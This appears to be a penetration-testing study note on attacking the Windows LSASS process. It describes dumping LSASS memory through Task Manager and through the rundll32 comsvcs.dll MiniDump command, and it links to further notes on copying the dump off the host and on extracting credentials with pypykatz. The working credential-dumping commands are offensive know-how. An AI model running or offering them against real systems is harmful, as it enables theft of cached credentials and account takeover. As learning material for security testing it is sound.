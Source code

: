 # Attacking LSASS

* \
  Upon initial logon, LSASS will:
  * Cache credentials locally in memory
  * Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
  * Enforce security policies
  * Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

### Dumping LSASS Process Memory

#### Task Manager Method

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* A file called `lsass.DMP` is created and saved in:

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

* to copy files use
  * [Create SMB server Linux (HACK)](app://obsidian.md/Create%20SMB%20server%20Linux%20\(HACK\))

#### Rundll32.exe & Comsvcs.dll Method

* modern anti-virus tools recognize this method as malicious activity.
* Before issuing the command to create the dump file, we must determine what process ID (`PID`) is assigned to `lsass.exe`.
* This can be done from cmd or PowerShell:

**Finding LSASS PID in cmd**

```cmd-session
tasklist /svc
```

**Finding LSASS PID in PowerShell**

```powershell-session
Get-Process lsass
```

**Creating lsass.dmp using PowerShell**

```powershell-session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

* to copy files use
  * [create-smb-server-linux-hack.md](create-smb-server-linux-hack.md "mention")

### Using Pypykatz to Extract Credentials

* [pypykatz.md](pypykatz.md "mention")
